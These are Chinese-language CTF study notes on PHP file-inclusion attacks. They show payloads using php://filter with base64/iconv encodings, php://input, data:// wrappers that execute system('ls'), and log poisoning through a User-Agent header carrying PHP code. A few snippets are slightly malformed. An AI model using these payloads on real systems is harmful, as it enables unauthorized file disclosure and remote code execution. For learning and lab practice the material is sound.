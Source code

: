 # 1.文件包含

## 做题步骤

-  php伪协议读取文件 
-  php://input，接着用post查询目录 

```php
<?php system('ls')?>
```


## file include filter

-  php伪协议：<br />常用的协议是：php://filter/read=convert.base64-encode/resource=xxx.php <br />常用的filter:<br />[PHP: 可用过滤器列表 - Manual](https://www.php.net/manual/zh/filters.php)<br />`convert.iconv.[]`过滤器，`[]`中支持以下字符编码（* 表示该编码也可以在正则表达式中使用<br />支持的编码：[PHP: 支持的字符编码 - Manual](https://www.php.net/manual/zh/mbstring.supported-encodings.php) 

| 名称                        | 描述                                                         |
| --------------------------- | ------------------------------------------------------------ |
| `resource=<要过滤的数据流>` | 这个参数是必须的。它指定了你要筛选过滤的数据流。             |
| `read=<读链的筛选列表>`     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`&#124;`<br />）分隔。 |
| `write=<写链的筛选列表>`    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`&#124;`<br />）分隔。 |
| `<；两个链的筛选列表>`      | 任何没有以 `read=`<br /> 或 `write=`<br /> 作前缀 的筛选器列表会视情况应用于读或写链。 |

   -  这里不再用read 

```
filename=php://filter/convert.iconv.UCS-4BE/resource=/var/www/html/flag.php
```


   -  尝试编码方式，这个意思就是过滤器对，但是需要和其他的结合
   -  用UCS-4*发现没报错
   -  所以把这两个合起来,UCS-4*.UTF-7 

## data协议

-  `PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码

```
/?c=data://text/plain,<?php system('ls');?>
```


-  include后面有后缀时，不影响代码的执行
   - 仍然可以用上面的payload

## 日志包含

### 原理

-  Apache运行后一般默认会生成两个日志文件，这两个文件是**access.log**(访问日志)和error.log(错误日志)，Apache的访问日志文件记录了客户端的每次请求及服务器响应的相关信息。 
-  当访问一个不存在的资源时，Apache日志同样会记录 例如访问http://127.0.0.1/。Apache会记录请求“”，并写到access.log文件中，这时候去包含access.log就可以利用包含漏洞 

### 日志目录

-  apache一般是/var/log/apache/access.log。
-  [nginx](https://so.csdn.net/so/search?q=nginx&spm=1001.2101.3001.7020)的log在/var/log/nginx/access.log和/var/log/nginx/error.log 

### 具体操作

-  用burp抓包，在User-Agent后加🐎，然后包含日志文件 

```php
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36<?php phpinfo();?>
```


-  也可以直接在get中传参，再包含日志文件 

```
/?<php phpinfo();?>
/?file=
```


# 